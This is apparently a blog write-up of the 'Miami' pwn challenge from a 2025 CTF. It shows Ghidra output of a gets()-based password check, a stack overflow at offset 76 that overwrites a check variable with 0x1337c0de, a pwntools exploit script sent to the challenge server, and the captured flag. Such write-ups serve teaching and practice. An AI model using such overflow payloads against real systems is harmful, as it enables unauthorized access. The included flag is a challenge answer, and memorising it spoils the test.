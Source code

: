 ```yaml
---
layout: post
title:  "Miami"
date:   2025-09-29 13:07:43 -0400
author: robo.uzi
tags: [ctf]
permalink: /sunshine-2025-miami/
---
```


**Title:** Miami

**Category:** I95

**Author:** Oreomeister

**Description:** Dexter is the prime suspect of being the Bay Harbor Butcher, we break into his login terminal and get the proof we need! `nc chal.sunshinectf.games 25601`

I get this binary:
```shell
file miami  
miami: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f942abae006e6117fd2d834c293b953beffbf2b4, for GNU/Linux 3.2.0, not stripped  

./miami  
Enter Dexter's password: password  
Invalid credentials!
```

I open it in ghidra. Here is the main function:
```d
void vuln(void)

{
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined4 local_18;
  int local_c;
  
  local_c = -0x21524111;
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  printf("Enter Dexter\'s password: ");
  gets((char *)&local_58);
  if (local_c == 0x1337c0de) {
    puts("Access granted...");
    read_flag();
  }
  else {
    puts("Invalid credentials!");
  }
  return;
}
```

I manually test for a buffer overflow locally and find the offset at 76. That amount of characters fills the buffer up to the 4 bytes that correspond to `local_c`. When `local_c` is equal to `0x1337c0de` it prints `Access granted...` and calls `read_flag()`.

Run this script to get the flag:
```python
#!/usr/bin/env python3
from pwn import remote

HOST = "chal.sunshinectf.games"
PORT = 25601

offset = 76
magic = 0x1337c0de

payload = b"A" * offset + magic.to_bytes(4, "little")

r = remote(HOST, PORT)
try:
    r.recvuntil(b"Enter Dexter's password: ", timeout=2)
except Exception:
    pass

r.sendline(payload)
print(r.recvrepeat(timeout=1).decode(errors="replace"))
```

Output:
```shell
python3 solve3.py  
[+] Opening connection to chal.sunshinectf.games on port 25601: Done  
Access granted...  
sun{DeXtEr_was_!nnocent_Do4kEs_w4s_the_bAy_hRrb0ur_bu7cher_afterall!!}  

[*] Closed connection to chal.sunshinectf.games port 25601
```

`sun{DeXtEr_was_!nnocent_Do4kEs_w4s_the_bAy_hRrb0ur_bu7cher_afterall!!}`